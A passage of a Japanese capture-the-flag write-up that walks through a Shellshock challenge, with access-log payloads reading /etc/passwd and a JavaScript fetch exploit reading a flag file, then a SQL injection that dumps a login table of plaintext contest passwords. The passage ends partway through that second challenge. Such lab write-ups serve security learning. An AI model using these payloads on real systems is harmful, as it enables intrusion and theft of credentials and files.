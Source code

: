 ```
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/q.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/r.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/s.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/t.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/u.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/v.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/x.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/y.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/z.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/v.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
```
/cgi-bin/n.cgiだけレスポンスが長いことから、このcgiが怪しそうです。
後はログファイルにあるペイロードのコマンド部分を/etc/PW-1を読み取るコマンドに変更すれば攻撃コードの完成です。
```javascript
(async () => {
    const baseUrl = "https://pw1-prod.2025winter-cybercontest.net/";
    const res = await fetch(baseUrl + "cgi-bin/n.cgi", {
        method: "GET",
        headers: {
            "User-Agent": "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/PW-1"
        }
    });
    console.log(await res.text());
})();
```
```
flag{>:(!shellshock!}
```

### 認証は認可の後

どうにかログインに成功して、フラグを取得する問題です。
最初にログインページに飛ぶので、まずは適当に値を入力してリクエストの内容を見てみます。
```
POST /auth.php
Content-Type: application/x-www-form-urlencoded

name=test&password=test&pass-re=test
```
これらのパラメータの値にSQLiがないか調べていると、nameパラメータにSQLを埋め込めることが分かりました。
そこから頑張ってテーブル内のクレデンシャルを抜き出していきます。
最終的に以下のようなクレデンシャルが抜き出せました。
```
+-----+----------+--------------------+-------------+---------+
| uid | uname    | name               | passwd      | secret  |
+-----+----------+--------------------+-------------+---------+
| 1   | mikawa01 | Ieyasu Tokugawa    | ndJs83GD    | No flag |
| 2   | nagoya01 | Hideyoshi Toyotomi | jNfo0Opopl  | No flag |
| 3   | sendai01 | Masamune Date      | knDhys98hTh | No flag |
| 4   | owari01  | Nobunaga Oda       | knDdd98hTh  | No flag |
+-----+----------+--------------------+-------------+---------+
```
ここから適当に一つ選んでログインしてみました。
ログインに成功するとユーザ情報を表示するページに飛びます。
そこにはフラグを表示というボタンがあるのですが、フラグは管理者にしか表示されませんと言われてしまい、フラグを取り出せません。